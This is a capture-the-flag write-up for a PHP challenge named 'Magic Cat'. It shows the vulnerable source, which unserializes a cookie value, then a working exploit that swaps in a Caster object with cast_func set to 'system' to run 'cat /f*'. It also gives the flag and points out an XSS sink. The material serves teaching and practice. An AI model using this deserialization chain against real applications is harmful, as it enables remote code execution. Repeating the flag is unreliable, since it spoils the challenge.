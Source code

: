 # Magic Cat

[http://h4ck3r.quest:8602/](http://h4ck3r.quest:8602/)

Tag: `Deserialization`

## Writeup

The source is given:

```php
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Magic
{
    function cast($spell)
    {
        echo "<script>alert('MAGIC, $spell!');</script>";
    }
}

// Useless class?
class Caster
{
    public $cast_func = 'intval';
    function cast($val)
    {
        return ($this->cast_func)($val);
    }
}


class Cat
{
    public $magic;
    public $spell;
    function __construct($spell)
    {
        $this->magic = new Magic();
        $this->spell = $spell;
    }
    function __wakeup()
    {
        echo "Cat Wakeup!\n";
        $this->magic->cast($this->spell);
    }
}

if (isset($_GET['spell'])) {
    $cat = new Cat($_GET['spell']);
} else if (isset($_COOKIE['cat'])) {
    echo "Unserialize...\n";
    $cat = unserialize(base64_decode($_COOKIE['cat']));
} else {
    $cat = new Cat("meow-meow-magic");
}
?>
<pre>
This is your 🐱:
<?php var_dump($cat) ?>
</pre>

<p>Usage:</p>
<p>/?source</p>
<p>/?spell=the-spell-of-your-cat</p>
```

You can simply hijack `magic` and let `cast_func = 'system'`.
Remember to serialize it to trigger `function __wakeup()`.

```php
$cat = new Cat("cat /f*");
$cat->magic = new Caster();
$cat->magic->cast_func = 'system';
echo base64_encode(serialize($cat));
```

## Flag

`FLAG{magic_cat_pwnpwn}`

## Postscript

I've tried some unintended solution for this problem like inject php code directly since once vardump displays everything on the web, just like pasting the code into the web, maybe browser will execute it?

**Of course not!**

Assume that we have

```php
<?php echo "Pwned"; ?>
```

When I run the page, it dissapears! I view the source code in inspect it shows:

```html
<!--?php echo "Pwned"; ?-->
```

I believe that the output from the php code on the web is regarded as a part of html(static), so php code won't execute.

[Reference](https://stackoverflow.com/questions/21279901/php-gets-commented-out-in-html)

**However!** I found out that this line of code is exploitable:

```php
echo "<script>alert('MAGIC, $spell!');</script>";`
```

Obviously we can trigger XSS, but that is useless in this challenge.
